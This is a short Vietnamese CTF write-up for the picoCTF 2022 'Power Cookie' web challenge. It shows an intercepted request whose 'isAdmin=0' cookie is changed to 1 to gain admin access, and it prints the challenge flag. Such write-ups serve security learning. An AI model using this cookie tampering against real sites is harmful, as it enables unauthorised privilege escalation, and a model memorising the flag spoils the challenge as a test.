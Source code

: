# Power Cookie
##### Tags: `picoCTF 2022` `Web Exploitation` `cookie`
### DESCRIPTION
Description
Can you get the flag? Go to this [website](http://saturn.picoctf.net:63041/) and see what you can discover.
##### Một challenge liên quan đến kỹ thuật `Cookie Poisoning`
> Đây là một lỗ hổng liên quan đến Cookies trong lập trình web, khi mà kẻ tấn công có thể nội dung của cookies để thay đổi hành vi của trang web, ví dụ trong bài này dùng để thăng quyền từ người dùng lên admin.
##### Sử dụng BurpSutie, Intercept trang, bấm vào `Continue as guest`, sau đố xem Request::
```
GET /check.php HTTP/1.1

Host: saturn.picoctf.net:63041

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://saturn.picoctf.net:63041/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: isAdmin=0

Connection: close

```
##### Như thấy, ở phần Cookie, giá trị `isAdmin` bằng 0, thay đổi thành 1, sau đó forward Request đi, được flag:
```
picoCTF{gr4d3_A_c00k13_0d351e23}
```
##### =>  Lấy flag thành công!
    
